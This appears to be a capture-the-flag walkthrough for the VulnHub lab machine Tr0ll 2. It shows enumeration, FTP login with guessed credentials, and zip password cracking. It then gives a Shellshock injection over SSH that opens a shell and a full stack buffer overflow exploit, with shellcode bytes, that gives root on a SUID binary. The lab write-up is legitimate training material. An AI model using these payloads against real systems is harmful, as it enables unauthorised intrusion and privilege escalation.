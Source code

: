 #### about : basics machines, shellshock in ssh , Bufferoverflows linux based 
[machine link](https://www.vulnhub.com/entry/tr0ll-2,107/)

## scanning

First we need to get the machine IP address , we can start with :
```bash
sudo netdiscover -i eth0
```
```                                                             
192.168.80.138  00:0c:29:c7:cb:ee      1      60  VMware, Inc.                                                             
```

now we have the target IP , so we can start scannig the services running :

```bash
nmap -A -T4 192.168.80.138 -oN nmap.intial

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 82:fe:93:b8:fb:38:a6:77:b5:a6:25:78:6b:35:e2:a8 (DSA)
|   2048 7d:a5:99:b8:fb:67:65:c9:64:86:aa:2c:d6:ca:08:5d (RSA)
|_  256 91:b8:6a:45:be:41:fd:c8:14:b5:02:a0:66:7c:8c:96 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: Host: Tr0ll; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Performing full port scan we got nothing new , so we can say scanning step has finished , we may need to run a UDP scan in case we reached a deadend with these services

## Enumeration

**Starting with the http service :**

- we only got a troll image , source code contains `Author: Tr0ll` , `Editor: VIM` we may use them latter
- run directory bruteforce :
```bash
ffuf -c -w /opt/large-wordlist.txt -u http://192.168.80.138/FUZZ

cgi-bin/                [Status: 403, Size: 290, Words: 21, Lines: 11]
index.html              [Status: 200, Size: 110, Words: 7, Lines: 7]
robots.txt              [Status: 200, Size: 346, Words: 1, Lines: 24]
server-status           [Status: 403, Size: 295, Words: 21, Lines: 11]
```
- at `robots.txt` we can find potential pages which we can add in a list and run ffuf again to see what is valid and what is rabbit hole:
```bash
ffuf -c -w wordlist.txt -u http://192.168.80.138/FUZZ 

keep_trying             [Status: 301, Size: 322, Words: 20, Lines: 10]
dont_bother             [Status: 301, Size: 322, Words: 20, Lines: 10]
ok_this_is_it           [Status: 301, Size: 324, Words: 20, Lines: 10]
noob                    [Status: 301, Size: 315, Words: 20, Lines: 10]
```
- checking all of them , all contain same image we can download the image and check if it is differs from page to another 

```bash
for i in `cat valid_from_robots.txt` ;do curl  http://192.168.80.138/$i/cat_the_troll.jpg -o $i.jpg ;done
```
```bash
ls -la *.jpg
-rw-r--r-- 1 kali kali 15873 Aug 22 22:16 dont_bother.jpg
-rw-r--r-- 1 kali kali 15831 Aug 22 22:16 keep_trying.jpg
-rw-r--r-- 1 kali kali 15831 Aug 22 22:16 noob.jpg
-rw-r--r-- 1 kali kali 15831 Aug 22 22:16 ok_this_is_it.jpg
```

one of them has different size , running strings on it we got at last line :
```
Look Deep within y0ur_self for the answer
```

- checking `http://192.168.80.138/y0ur_self/` we got listed directory with the file `answer.txt` inside which we can download 
- file `answer.txt` contains alot of base64 encoded strings with duplicates 
- clean results maybe it is a list we can use for bruteforcing other services
```bash
for i in `cat answer.txt ` ;do  echo $i | base64 -d  >> output.txt;done
cat output.txt | uniq > uniqued.txt
```
- now i think we got all what we can do for the http service 

**ftp-service**

- anonymous login is not allowed , we can try the username `Tr0ll` that we have found earlier in the web page source code and type it as password as well
- we have logged in successfully with `Tr0ll:Tr0ll` , we have found :
```bash
-rw-r--r--    1 0        0            1474 Oct 04  2014 lmao.zip
```
- we can download using `get lmao.zip`
- the file is protected and needs a password , we can bruteforce password from the list we have obtained eariler 

```bash
fcrackzip -D -p uniq_output.txt -u  lmao.zip
PASSWORD FOUND!!!!: pw == ItCantReallyBeThisEasyRightLOL
```
- now we can extract the zip file and we have found `noob` ssh private keys which we can use to login

## Foothold

```bash
ssh noob@192.168.80.138 -i noob 
```
we got output :
```
TRY HARDER LOL!
```
we can imagine the implemnetation in the machine is that when a user tries to ssh echo 'TRY HARDER LOL!' and exit  , and this echo line is a prefix in the Authorized_keys 
searching about that will find [here](https://unix.stackexchange.com/questions/157477/how-can-shellshock-be-exploited-over-ssh) talking about the exploitation of that

```bash
ssh noob@192.168.80.138 -i noob '() { :;}; echo MALICIOUS CODE'  
MALICIOUS CODE
TRY HARDER LOL!
```
spawn a shell :
```bash
ssh noob@192.168.80.138 -i noob '() { :;}; /bin/bash'
 ```
 and indeed :
 
 ![image](https://user-images.githubusercontent.com/67979878/186057505-3d9642e6-db7b-4c44-8c62-ad2530705792.png)

## Post Exploiation

- to have a stable shell remove the `command="echo TRY HARDER LOL!" ` From the `authorized_keys` then ssh normally
- let's search for juicy stuff to gain the root access , we find no sudo for our user so we can start with SUIDs

```bash
find / -type f -user root -perm -4000 -exec ls -l {} + 2>/dev/null
...
-rwsr-xr-x 1 root root         7273 Oct  5  2014 /nothing_to_see_here/choose_wisely/door1/r00t
-rwsr-xr-x 1 root root         8401 Oct  5  2014 /nothing_to_see_here/choose_wisely/door2/r00t
-rwsr-xr-x 1 root root         7271 Oct  5  2014 /nothing_to_see_here/choose_wisely/door3/r00t
...
```

- Trying to execute the 3 of the r00t binaries , one of them will lock us for 2 mins and the other one will do nothing. the third one accepts an input and prints it back
- we should think of BoF as it prints the string back . let's try large string

```bash
./r00t  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

**Exploiting Buffer over flow [using GDB]**

- trying until length=300 the binary returns segmentation fault and the EIP is overwritten 
```bash
(gdb) r $(python -c 'print("A"*300)')
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info registers 
...
eip            0x41414141	0x41414141
....
```
- now we want to get the **offset** until the EIP is overwritten :

```bash
# generate unique pattern
msf-pattern_create -l 300
msf-pattern_offset -q 6a413969 -l 300
[*] Exact match at offset 268
```
- confirm results :
```bash
(gdb) r $(python -c 'print("A"*268+"BBBB")')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
 ```
 Sending this output in EDB we got EIP=42424242 , so confirmed we can control the EIP

- we want to get the JMP ESP instruction address so we can inject our shellcode at , but we can find no `JMP ESP` instruction 
- we can write our shellcode and hope there are any instruction that can lead for the execution latter 

```bash
(gdb) info registers esp
esp            0xbffffb30	0xbffffb30
```
- generate shellcode for shell spawning :
```bash
msfvenom -p linux/x86/exec -f py CMD="/bin/sh" -b '\x00\x0a\x0d'
```
- add nop sled 16 leads to Ilegal instruction error , keep increasing until worked
```bash
./r00t $(python -c 'print("A"*268+"\x30\xfb\xff\xbf"+"\x90"*128 +"\xda\xdb\xd9\x74\x24\xf4\x5d\x33\xc9\xba\xaf\x19\xcd\xda\xb1\x0b\x31\x55\x1a\x03\x55\x1a\x83\xed\xfc\xe2\x5a\x73\xc6\x82\x3d\xd6\xbe\x5a\x10\xb4\xb7\x7c\x02\x15\xbb\xea\xd2\x01\x14\x89\xbb\xbf\xe3\xae\x69\xa8\xfc\x30\x8d\x28\xd2\x52\xe4\x46\x03\xe0\x9e\x96\x0c\x55\xd7\x76\x7f\xd9")')
```
- running it has spawned shell as root user



